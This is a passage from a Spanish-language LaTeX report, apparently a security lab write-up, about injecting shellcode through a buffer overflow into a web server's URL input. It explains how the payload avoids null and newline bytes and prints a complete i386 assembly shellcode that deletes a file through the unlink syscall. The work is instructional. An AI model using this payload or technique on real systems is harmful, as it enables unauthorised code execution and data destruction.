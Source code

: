 \documentclass[12pt]{article}
\begin{document}
En \textit{shellcode-iny1.bin} incluímos las instrucciones a ejecutar.
\subsubsection{Shellcode}
Es nuestro conjunto de instrucciones a inyectar. Hay que recordar que la arquitectura del atacante puede ser diferente a la del servidor victima. De hecho en este caso la máquina virtual donde montamos el servidor trabaja con arquitectura i386 y los ataques los lanzamos de x86\_64. Es por ello que en el Makefile que compila nuestra shellcode, usamos la opción de compilar para dicha arquitectura. Es muy común que al compilar una shellcode deban usarse cross-compilers para compilar para la arquitectura de la víctima. \\

 Ver que sólo nos interesan las instrucciones ejecutables, por lo cual compilamos a objeto y luego extraemos el segmento de texto. Es importante que la shellcode sea reducida, ya los espacios a desbordar suelen ser relativamente limitados. Generalmente se programa directamente en ensamblador (como es el caso). Ademas se necesita tener control fino sobre las instrucciones a inyectar, generalmente nuestro conjunto de instrucciones se inyectará como un flujo de datos de input que suele tener restricciones y saneamiento posterior y tiene que lidear con estas trabas de manera ingeniosa. \\
 
Hay que recordar que caracteres como '\textbackslash 0' '\textbackslash n' '\textbackslash r' o ' ' cortarían la URL. Esta vulnerabilidad cuenta con la ventaja que podemos codificar con \textit{URL encode} los datos y de esta manera evitar que el ataque falle por la manera en la que se lee y parsea el input. Se puede, en otros casos, valerse del ingenio para evitar estos caracteres en las instrucciones. Por ejemplo nuestra shellcode no posee nulos ni saltos de línea. Obtiene ceros en los registros utilizando el operador xor. Y valiendose del incremento obtiene el valor 10. A continuación el código del shellcode utilizado, ver que contiene una referencia de memoria al path del archivo a borrar, tambien inyectado en el buffer desbordado:

\begin{lstlisting}[language=,belowskip=\baselineskip]
.globl main
    .type	main, @function

 main:
    xorl	%eax,%eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    movl $0xbfffee09, %ebx    # path to file to delete
    int  $0x80 

    xorl	%eax,%eax
    xorl	%ebx,%ebx
    inc %eax
    int  $0x80
\end{lstlisting}
\end{document}
